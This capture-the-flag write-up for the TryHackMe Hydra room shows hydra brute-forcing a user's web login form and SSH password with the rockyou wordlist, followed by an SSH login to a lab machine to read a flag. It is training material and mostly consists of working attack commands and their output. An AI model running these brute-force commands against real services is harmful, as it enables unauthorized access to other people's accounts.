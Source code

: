 # TryHackMe Hydra

# **Use Hydra to brute force Molly's web password. What is flag 1?**

- First we will brute force Molly's password with `hydra`:

```bash
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
[80][http-post-form] host: 10.10.80.107   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
```

- Login with the credentials and obtain the flag:

<img src='images/Untitled.png' hieght=400 width=800>

# **Use Hydra to brute force Molly's SSH password. What is flag 2?**

- Use Hydra's SSH along with the `rockyou.txt` password list to brute force Molly's server password:

```bash
$ hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> -t 4 ssh
[22][ssh] host: 10.10.80.107   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
```

- Log-in to Molly's server using her SSH credentials:

```bash
┌─[azab@ze2pac]─[~]
└──╼ $ssh molly@<MACHINE_IP>
The authenticity of host '10.10.80.107 (10.10.80.107)' can't be established.
ECDSA key fingerprint is SHA256:2xyt3KiRbwRE9QAMyGP0CYYgTJvLavbf5t7RFWUeKro.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.80.107' (ECDSA) to the list of known hosts.
molly@10.10.80.107's password:
molly@ip-10-10-80-107:~$ ls
flag2.txt
molly@ip-10-10-80-107:~$ cat flag2.txt
THM{********************************}
```
